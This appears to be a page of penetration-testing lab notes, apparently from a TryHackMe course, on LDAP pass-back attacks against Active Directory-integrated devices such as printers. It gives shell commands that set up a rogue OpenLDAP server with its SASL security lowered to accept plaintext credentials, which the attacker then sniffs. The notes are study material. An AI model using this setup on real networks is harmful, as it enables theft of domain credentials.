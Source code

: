 # ______________________________________________________________________

# [=] **LDAP Pass-back Attacks**

### Details

LDAP authentication is a popular mechanism with third-party (non-Microsoft) applications that integrate with AD. These include applications and systems such as:

- Gitlab
- Jenkins
- Custom-developed web applications
- Printers
- VPNs
- some IT devices like Printer could have a web interface for configuration without passwords or with the default, You can change the configuration to make your self the LDAP server then run LDAP server on your machine using `OpenLDAP` with bad configuration (plain text authentication) and sniffing the traffic using wireshark or tcpdump

## [+] Hosting Rogue LDAP server

```powershell
**sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd

echo "#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred" >> olcSaslSecProps.ldif

sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms  # We can verify that our rogue LDAP server's configuration has been applied

# [thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
# dn:
# supportedSASLMechanisms: PLAIN
# supportedSASLMechanisms: LOGIN**
```

- Explanation
    - **olcSaslSecProps:** Specifies the SASL security properties
    - **noanonymous:** Disables mechanisms that support anonymous login
    - **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.

## [+] **Capturing LDAP Credentials Using `tcpdump`**

